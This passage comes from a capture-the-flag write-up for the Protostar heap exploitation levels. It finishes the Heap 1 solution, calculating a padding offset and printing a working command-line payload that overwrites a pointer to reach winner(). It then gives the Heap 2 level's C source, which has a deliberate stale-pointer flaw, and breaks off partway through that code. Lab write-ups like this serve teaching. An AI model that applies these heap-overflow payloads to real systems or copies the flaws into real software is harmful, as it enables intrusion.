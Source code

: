 From the heap dump, the address stored in `i2->name` is at `0x804a02c`, and **the first strcpy()** starts copying data from `0x804a018`.

Let's calculate the padding required for the first argument:

$$
0x804a02c - 0x804a018 = 20
$$

The second argument is the address of **winner()**, which is `0x8048494`.

Now, we have all the information needed to craft our exploit. Here is the final payload:

```shell
user@protostar:/opt/protostar/bin$ ./heap1 $(python -c 'print "A"*20 + "\x74\x97\x04\x08"') $(python -c 'print "\x94\x84\x04\x08"')
and we have a winner @ 1742201013
```

## Heap 2

Description:

>This level examines what can happen when heap pointers are stale.<br>
>This level is completed when you see the ***“you have logged in already!”*** message<br>
>This level is at /opt/protostar/bin/heap2

Source code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
```